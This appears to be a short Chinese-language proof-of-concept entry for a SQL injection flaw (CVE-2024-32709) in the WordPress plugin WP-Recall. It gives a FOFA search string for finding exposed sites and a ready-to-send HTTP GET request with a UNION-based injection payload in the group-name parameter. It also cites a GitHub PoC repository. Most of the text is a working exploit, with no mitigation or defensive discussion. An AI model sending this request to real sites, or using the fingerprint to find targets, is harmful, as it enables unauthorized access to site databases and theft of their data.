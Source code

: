 ## WordPress插件Recall存在SQL注入漏洞(CVE-2024-32709)

WordPress 插件Recall 存在SQL注入漏洞，导致获取数据泄露。

## fofa

```
"/wp-content/plugins/wp-recall/"
```

## poc

```
GET /account/?user=1&tab=groups&group-name=p%27+or+%27%%27=%27%%27+union+all+select+1,2,3,4,5,6,7,8,9,10,11,concat(%22Database:%22,md5(123456),0x7c),13--+- HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Connection: close
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051856248.png)

## 漏洞来源

- https://github.com/truonghuuphuc/CVE-2024-32709-Poc